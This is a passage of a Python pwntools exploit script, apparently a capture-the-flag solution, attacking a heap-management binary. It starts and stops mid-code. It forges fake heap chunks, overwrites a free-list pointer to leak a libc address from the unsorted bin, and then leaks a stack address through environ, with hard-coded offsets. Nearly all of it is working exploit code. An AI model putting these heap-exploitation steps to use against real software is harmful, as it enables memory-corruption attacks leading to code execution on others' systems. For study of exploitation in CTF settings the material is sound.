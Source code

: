 ``` python
    s.send(cred)
    if fin:
        return
    s.recvuntil(b"credentials: ")
    s.send(name)
    return s.recvuntil(b"Input: ")

def check(s):
    s.sendline(b"2")
    return s.recvuntil(b"Input: ")

def delete(s, index):
    s.sendline(b"3")
    s.recvuntil(b"index: ")
    s.sendline(index)
    return s.recv()

def main(port, debug):
    if(port):
        s = remote("0.0.0.0", port)
    else:
        s = process(BINARY)
        if debug:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    log.info(f"cred : {hex(bp['cred'])}")
    s.recv()

    payload = p64(0)                                # fake chunk -> prev_size
    payload += p64(0x111)                           # fake chunk -> size
    save(s, 0x30, payload, b"0000")
    save(s, 0x30, b"BBBB", b"1111")
    save(s, 0x30, b"CCCC", b"2222")
    save(s, 0x40, b"DDDD", b"3333")
    save(s, 0x30, payload, b"4444")
    save(s, 0x60, b"FFFF", b"5555")
    save(s, 0x60, b"GGGG", b"6666")

    # libc leak
    delete(s, b"1")                                 # free "1111"
    save(s, 0x30, b"BBBB", b"1" * 0x20 + b"\x20")   # alloc "1111" and overwrite next pointer
    delete(s, b"2")                                 # free fake chunk -> unsorted bin
    save(s, 0x30, b"\xc0", b"2222")                 # alloc from unsorted bin
    
    r = check(s)
    arena = 0x3b4cc0
    libc = u64(r.split(b"2222 --> ")[1][:6] + b"\x00\x00") - arena
    log.info(f"libc : {hex(libc)}")
    
    # flush unsorted bin
    save(s, 0x60, b"HHHH", b"7777")
    save(s, 0x50, b"IIII", b"8888")
    delete(s, b"7")
    delete(s, b"8")

    # stack leak
    delete(s, b"0")
    environ = 0x3b75d8
    payload = b"0" * 0x20
    payload += p64(libc + environ)
    save(s, 0x30, b"AAAA", payload)

    r = check(s)
```